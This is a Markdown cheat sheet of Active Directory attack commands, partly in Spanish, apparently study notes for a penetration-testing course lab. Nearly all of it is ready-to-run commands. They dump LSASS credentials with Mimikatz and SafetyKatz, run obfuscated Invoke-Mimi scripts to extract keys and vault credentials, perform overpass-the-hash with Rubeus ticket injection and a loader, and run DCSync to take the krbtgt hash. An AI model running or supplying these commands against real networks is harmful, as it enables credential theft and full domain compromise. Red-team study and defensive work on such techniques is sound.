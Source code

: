 # Mimikatz 

Tags: #AD #Windows #Mimikatz #Powershell #Rubeus 

* [Mimikatz](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/kali/master/x64?ref_type=heads)

```powershell 
Mimikatz puede ser usado para extraer credenciales, tickets
```

## Runas 

```powershell 
❯ runas /user:domain\user /netonly cmd       
```

## Credential Extration - LSASS

```powershell 
❯ mimikatz.exe -Command '"sekurlsa::ekeys"'    # Dump credentials on a using Mimikatz
❯ SafetyKatz.exe "sekurlsa::ekeys"             # Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)

Notes: 
	1. From a Linux attacking machine using impacket 
```

```powershell 
❯ .\Invoke-Mimi.ps1   # Script ligero 

# Versión ofuscada    
❯ .\Invoke-MimiEx-keys.ps1         # Ejecutar sekurlsa::ekeys 
❯ .\Invoke-MimiEx-vault.ps1        # Ejecutar vault::cred /patch 
```

## OverPass The Hash 

```powershell 
❯ SafetyKatz.exe "sekurlsa::pth /user:administrator /domain: dollarcorp.moneycorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"       # Over Pass The Hash (OPTH) generate tokens from hashes or keys. Needs elevation (Run as administrator)

Notes: 
	1. The above commands starts a process with a logon type 9 (same as runas /netonly) 
```

## OverPass The Hash - Rubeus 

```powershell 
❯ Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt    # Doesn't need elevation 

❯ Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt           # This command needs elevation 

❯ C:\AD\Loader.exe -path C:\AD\Rubeus.exe -args asktgt /user:svcadmin /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt 

Notes:
	1. Over Pass The Hash (OPTH) generate tokens from hashes or keys
```

## DCSync 

```powershell 
# To extract credentials from the DC without code execution on it, we can use DCSync

❯ SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"    # To use the DCSync feature for getting krbtgt hash execute. Use this command with DA privileges for domain 

Notes:
	1. By default, Domain Admins, Enterprise Admins or Domain Controller privileges are required to run DCSync
```